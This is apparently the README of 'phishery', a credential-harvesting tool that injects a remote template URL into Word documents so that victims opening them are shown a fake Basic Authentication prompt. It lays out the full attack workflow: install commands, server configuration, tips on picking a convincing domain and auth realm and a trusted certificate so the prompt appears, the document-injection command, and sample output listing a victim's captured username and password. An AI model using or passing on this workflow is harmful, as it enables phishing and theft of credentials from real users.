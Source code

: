 # phishery

phishery is a Simple SSL Enabled HTTP server with the primary purpose of phishing credentials via Basic Authentication. 

The power of phishery is best demonstrated by setting a Word document's template to a phishery URL. This causes 
Microsoft Word to make a request to the URL, resulting in an Authentication Dialog being shown to the end-user. The
ability to inject any .docx file with a URL is possible using the phishery's 
`-i [in docx]`, `-o [out docx]`, and `-u [url]` options.

### Download
Operating specific packages can be [downloaded from here](https://github.com/ryhanson/phishery/releases).

### Install
Extract the archive, and optionally, install binary to $PATH

```bash
$ tar -xzvf phishery*.tar.gz
$ cd phishery*
$ cp phishery /usr/local/bin
```

### Usage
```text
$ phishery --help

|\   \\\\__   O         __    _      __
| \_/    o \  o  ____  / /_  (_)____/ /_  ___  _______  __
> _   (( <_ oO  / __ \/ __ \/ / ___/ __ \/ _ \/ ___/ / / /
| / \__+___/   / /_/ / / / / (__  ) / / /  __/ /  / /_/ /
|/     |/     / .___/_/ /_/_/____/_/ /_/\___/_/   \__, /
             /_/ Basic Auth Credential Harvester (____/
                 with Word Doc Template Injector

  Start the server  : phishery -s settings.json -c credentials.json
  Inject a template : phishery -u https://secure.site.local/docs -i good.docx -o bad.docx

  Options:
    -h, --help      Show usage and exit.
    -v              Show version and exit.
    -s              The JSON settings file used to setup the server. [default: "settings.json"]
    -c              The JSON file to store harvested credentials. [default: "credentials.json"]
    -u              The phishery URL to use as the Word document template.
    -i              The Word .docx file to inject with a template URL.
    -o              The new Word .docx file with the injected template URL.
```

##### Running the server
Modify the provided settings.json file as needed, by default it should look like this:

```json
{
  "ip": "0.0.0.0",
  "port": "443",
  "sslCert": "server.crt",
  "sslKey": "server.key",
  "basicRealm": "Secure Document Gateway",
  "responseStatus": 200,
  "responseFile": "template.dotx",
  "responseHeaders": [
    ["Content-Type", "application/vnd.openxmlformats-officedocument.wordprocessingml.template"]
  ]
}
```

This setup will start the HTTP server on Port *443* with SSL configured to use *server.crt* and *server.key*. 
The basic authentication realm is set to *Secure Document Gateway*.
When any credentials are provided, a *200* response status is sent along with the contents of the included *template.dotx* and
the content type header: *Content-Type: application/vnd.openxmlformats-officedocument.wordprocessingml.template*.

The settings file may also be configured to output a simple body, by using *responseBody*, like this:

```json
{
  "ip": "0.0.0.0",
  "port": "443",
  "sslCert": "server.crt",
  "sslKey": "server.key",
  "basicRealm": "Secure Document Gateway",
  "responseStatus": 404,
  "responseBody": "<h1>Not Found</h1>",
  "responseHeaders": [
    ["Content-Type", "text/html"]
  ]
}
```

The effectiveness of this tool is based mostly on the Domain and Basic Auth Realm used, as that is often all the end user 
will see when triggered from an Office document. Make sure to point your DNS A Records the public IP of the phishery server.

It's recommended that the provided cert is replaced with a trusted one, such as one generated with 
[LetsEncrypt](https://github.com/certbot/certbot). Microsoft Word on OS X will prevent the auth dialog if the cert is invalid.

Once the server is configured and running, all you need to do is embed a phishery URL in a document, or anywhere
else your heart desires. phishery does give you the ability to inject your URL into a Word document as a template, 
instructions on how to do this can be found below.

##### Injecting a Word Document
To inject a Word document with a template URL, you'll need a .docx file and the phishery server URL.

Now run phishery with your document and URL:

```text
$ phishery -url https://secure.site.local/docs -docx good.docx -badocx bad.docx
[+] Opening Word document: good.docx
[+] Setting Word document template to: https://secure.site.local/docs
[+] Saving injected Word document to: bad.docx
[*] Injected Word document has been saved!
```

Make sure your phishery server is running and available at the URL you used. Now when the Word document
is opened, the victim will be prompted with an authentication dialog.

Now when the victim opens the document, you'll see the following:

```text
$ ./phishery
[+] Credential store initialized at: credentials.json
[+] Starting HTTPS Auth Server on: 0.0.0.0:443
[*] Request Received at 2016-09-25 01:06:28: HEAD https://secure.site.local/docs
[*] Sending Basic Auth response to: 127.0.0.1
[*] New credentials harvested!
[HTTP] Host        : secure.example.local
[HTTP] Request     : /docs
[HTTP] User Agent  : Microsoft Office Word
[HTTP] IP Address  : 127.0.0.1
[AUTH] Username    : john.doe
[AUTH] Password    : Summer15
```